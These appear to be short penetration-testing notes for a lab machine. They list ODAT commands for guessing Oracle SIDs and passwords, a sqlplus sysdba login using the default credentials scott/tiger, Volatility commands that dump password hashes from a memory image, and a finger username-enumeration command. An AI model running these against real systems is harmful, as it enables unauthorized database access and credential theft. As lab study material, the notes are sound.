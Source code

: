 

# ODAT ####

1. we will try to find **sid** values using ODAT py 

   1. `python3 odat.py sidguesser -h` # to see options
   2. `python3 odat.py sidguesser -s <ip> -p 1521`


we get 2 valid SID  `XE` `XEXDB`

2. We will try to guess the password using odat
  
   1. `python3 odat.py passwordguesser -h`  # to see options
   2. `python3 odat.py passwordguesser -s <ip> -d XE`


# Sqlplus ###
```bash
sqlplus64 scott/tiger@<ip>:1521/XE as sysdba
```

# volatlity 
```
1. volatility -f SILO-20180105-221806.dmp imageinfo

2. volatility -f SILO-20180105-221806.dmp --profile Win2012R2x64 hashdump
```


# Finger 
```bash
./finger-user-enum.pl -U /usr/share/seclists/Usernames/Names/names.txt -t <ip>
```


   

